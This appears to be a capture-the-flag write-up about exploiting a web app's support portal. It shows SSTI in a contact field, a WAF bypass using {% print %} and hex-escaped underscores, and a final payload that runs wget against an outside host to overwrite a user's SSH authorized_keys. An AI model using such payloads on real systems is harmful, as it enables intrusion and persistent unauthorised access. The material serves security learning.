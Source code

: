 # Login into Admin Panel

![[Pasted image 20210530215020.png]]

## View Messages

Exploring the application we can view messages and support.

![[Pasted image 20210530215106.png]]

This is pointing to the path /a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal 

and it seems there are some vulnerabilities there.

So let's try to navigate there

![[Pasted image 20210530215217.png]]

First thing we see there is a WAF on Contact field and XSS on Message.

XSS Is rabbit hole.

## Injection on Contact field

Article: https://hackmd.io/@Chivato/HyWsJ31dI

Since the inital page was vulnerable to SSTI let's try it here.

{{ config }}

But there is WAF blocking {{ }}. But wait.. we can also do something like: `{% print("foobar") %}`


It seems that this is also vulnerable to SSTI, as we can see foobar printed on the contact name

![[Pasted image 20210530215843.png]]

Knowing that we can either start a reverse shell or upload our public key and jump into ssh directly, since ssh is available on the server.

We need to escape WAF Characters, so the final payload will look like:

``` {% print(request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("wget 10\x2e10\x2e14\x2e147/authorized\x5fkeys -O /home/chiv/\x2essh/authorized\x5fkeys")["read"]()) %}```